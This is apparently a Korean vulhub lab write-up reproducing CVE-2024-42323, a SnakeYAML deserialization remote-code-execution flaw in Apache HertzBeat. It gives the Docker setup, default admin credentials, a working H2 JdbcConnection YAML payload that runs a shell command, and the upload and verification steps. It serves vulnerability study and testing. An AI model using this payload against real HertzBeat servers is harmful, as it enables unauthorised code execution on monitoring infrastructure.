





### Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

### 요약

Apache HertzBeat는 오픈소스 실시간 모니터링 및 경고 도구로, 운영 체제, 미들웨어, 데이터베이스 등을 웹 인터페이스를 통해 모니터링할 수 있습니다. 버전 1.6.0 이전의 HertzBeat는 YAML 파일을 파싱할 때 취약한 SnakeYAML 라이브러리를 사용하고 있습니다. 이로 인해, 인증된 사용자가 /api/monitors/import 또는 /api/alert/defines/import API를 통해 새로운 모니터링 타입을 임포트할 때 조작된 YAML 파일을 업로드하면 신뢰되지 않은 객체가 역직렬화되며, 원격 코드 실행(RCE)이 발생할 수 있습니다. 

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/hertzbeat/CVE-2024-42323/README.zh-cn.md)

 

### 환경 구축

터미널에서 다음 명령어로 취약한 HertzBeat 1.4.4 버전을 실행합니다:

`docker compose up -d`

브라우저에서 http://<your-ip>:1157/dashboard로 접속할 수 있으며, 기본 로그인 정보는 다음과 같습니다:

- 아이디: admin
- 비밀번호: hertzbeat

 

### 취약점 재현 (공격 설명)

#### 1단계: 악성 YAML 파일 생성

파일명은 반드시 .yaml 확장자를 가져야 하며, 아래처럼 생성합니다.

`!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]`

- SnakeYAML은 II로 시작되는 Java 객체를 역직렬화합니다.
- 위 페이로드는 **org.h2.jdbc.JdbcConnection 객체를 생성**하며, 내부적으로 **H2 데이터베이스의 INIT 명령어**를 통해 시스템 명령어(touch /tmp/success)를 실행하게 만듭니다.
- 결국 Runtime.getRuntime().exec(...)로 시스템 명령이 실행되어 **RCE(원격 코드 실행)** 가 발생합니다.

 

#### 2단계: YAML 파일 업로드

HertzBeat 대시보드에 로그인 후, 모니터링 설정 화면으로 이동합니다.

1. "import" 버튼을 클릭한다.
2. 위에서 만든 악성 YAML 파일을 업로드한다.
   

 

#### 3단계: 코드 실행 확인

파일이 업로드되면서 SnakeYAML이 역직렬화를 수행하고, 내부에서 명령어가 실행됩니다.

페이로드의 경우, /tmp/success 파일을 생성하므로, 다음 명령어로 확인할 수 있습니다:

`docker exec -t <컨테이너 ID> ls /tmp`

 

### 참고 자료

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
- [https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md](https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml反序列化漏洞(CVE-2024-42323).md)
